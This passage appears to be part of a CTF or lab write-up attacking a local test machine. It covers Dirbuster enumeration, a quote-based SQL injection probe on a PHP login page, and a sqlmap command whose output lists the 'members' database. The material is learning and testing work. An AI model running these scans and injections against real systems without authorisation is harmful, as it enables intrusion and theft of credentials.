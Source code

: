 ## Dirbuster Results

```
/cgi-bin/
/
/images/
/icons/
/index/
/cgi-bin//
/images//
/icons//
//
//cgi-bin/
//images/
//index/
/checklogin.php
/index.php
/.html
/cgi-bin/.html
/icons/.html
/images/.html
//index.php
```

LFI was also tested but not identified.

## SQL injection

Entering `user:'` on the password page led to the following output:

```
Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in /var/www/checklogin.php on line 28
Wrong Username or Password
```

This indicates that **password** may be vulnerable to injection.

Examining the `POST` reponse the following form was found:

```
mypassword:passwordA
myusername:userA
Submit:Login
```

Using `sqlmap` we can translate this:

```bash
sqlmap --url "10.0.2.15" --forms
```

```
[14:31:21] [INFO] fetching number of databases
[14:31:21] [INFO] retrieved: 3
[14:31:21] [INFO] retrieved: information_schema
[14:31:22] [INFO] retrieved: members

[14:31:23] [INFO] fetching number of tables for database 'members'
[14:31:23] [INFO] retrieved: 1
[14:31:23] [INFO] retrieved: members

Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
```

  [464d8d1a]: https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ "Linux Shell Escapes"